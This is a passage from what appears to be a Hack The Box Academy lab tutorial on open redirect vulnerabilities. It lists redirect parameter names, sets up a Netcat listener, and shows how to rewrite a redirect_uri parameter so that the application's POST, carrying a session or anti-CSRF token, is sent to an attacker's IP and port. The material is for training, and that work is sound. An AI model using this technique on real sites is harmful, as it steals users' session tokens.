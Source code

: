- ?newurl=
- ?redir=
## Open Redirect Example
`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

![image](https://academy.hackthebox.com/storage/modules/153/72.png)

Let us test if we can control the site where the _redirect_uri_ parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).

We can test that as follows.

First, let us set up a Netcat listener.

```shell-session
alakin2504@htb[/htb]$ nc -lvnp 1337
```

Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.